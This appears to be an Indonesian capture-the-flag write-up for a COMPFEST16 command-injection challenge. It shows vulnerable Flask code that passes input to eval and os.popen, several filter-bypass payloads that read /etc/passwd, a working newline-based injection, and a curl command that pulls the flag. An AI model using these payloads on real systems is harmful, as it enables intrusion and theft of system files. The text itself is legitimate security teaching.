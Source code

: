 #CTF #COMPFEST16 #WriteUp #WebExploitation #CommandInjection #COMPFESTHackingClass

>**Flag:** `COMPFEST16{bj1rrr_1njEKs1_p3rInTAH_96530087aa}`

![compfest16-hackingclass-pink00.png](./img/compfest16-hackingclass-pink00.png)
![compfest16-hackingclass-pink01.png](./img/compfest16-hackingclass-pink01.png)
### Write Up:
Dilampirkan source code sebagai berikut:
```python
from flask import Flask, render_template, request
import os
import re

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])

def home():

    if request.method == "GET":
        return render_template("index.html")
    elif request.method == "POST":
        ip = request.form.get("ip")
  
        if re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}", ip) and not any(char in ip for char in [";", "|", "&", "/" "{", "}"]):

            cmd = "eval \"ping -c 4 " + ip + "\""
            result = os.popen(cmd).read()
            return render_template("index.html", **{"data": result})
        else:
            return render_template("index.html", **{"data": "NO HACKING ALLOWED!!!! >:("})
            
if __name__ == "__main__":

    app.run("0.0.0.0", port=8080)
```

Hal yang dapat kita ketahui dari source code diatas adalah:
- `re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}"`
	input harus berupa angka dengan limit digit 3 dan dipisahkan dengan titik
- `not any(char in ip for char in [";", "|", "&", "/" "{", "}"])`
	dan tidak mengandung salah satu dari tanda diatas.
- variabel `cmd` berisi perintah yang akan dijalankan dengan memasukkan tambahan input dalam perintahnya dan variabel `result` akan mengembalikan nilai.

Kerentanan yang ada disini terletak pada `eval` dan `os.popen(cmd).read()`
yang rentan terhadap [[-Command Injection]].

Gunakan `Burp Suite` atau `curl` untuk mencoba mengirimkan request kepada server dan menganalisa respon nya. Disini kita masukkan ping localhost (127.0.0.1) atau 0.0.0.0 pada input dan hasilnya akan menjalankan ping sebanyak 4 kali seperti dalam variabel `cmd`

Sebelumnya, dengan memperhatikan karakter yang dilarang oleh code saya mencoba berbagai cara sebagai berikut
1. Bypass `|` dan `;` menggunakan hex
```
127.0.0.1\x3bcat\x20/etc/passwd
127.0.0.1\x7ccat\x20/etc/passwd
127.0.0.1`\7ccat\20/etc/passwd`
127.0.0.1`\3bcat\20/etc/passwd`
```
2. Menggunakan `$`
```
127.0.0.1$(cat /etc/passwd)
```

Namun, tidak berhasil. Setelah mencari referensi dan petunjuk ada titik terang
```
127.0.0.1 %0a cat /etc/passwd
```

`%0a` adalah representasi URL-encoded dari `\n`, banyak aplikasi web dan API modern yang secara otomatis men decode input URL-encoded, sehingga `%0a` akan diubah kembali menjadi newline `(\n)`.

Kita berhasil menampilkan `cat /etc/passwrd`. Setelah dianalisa, tidak ada informasi user didalamnya. Maka, kita mencoba cek dalam directory `/` menggunakan `ls -a`
![compfest16-hackingclass-pink02.png](./img/compfest16-hackingclass-pink02.png)

Bingo, terdapat file yang bernama `flag.txt`, dan setelah dicek ternyata bukan dummy flag tetapi riil flag.

![compfest16-hackingclass-pink03.png](./img/compfest16-hackingclass-pink03.png)

Jika menggunakan curl maka perintah nya sebagai berikut:
```
curl -X POST -d "ip=127.0.0.1%0a cat flag.txt" http://challenges.ctf.compfest.id:20001/
```

Tamat!!!

Cara lain yang lebih simpel adalah berikut:
```
0.0.0.0$(echo "\n flag.txt")
```
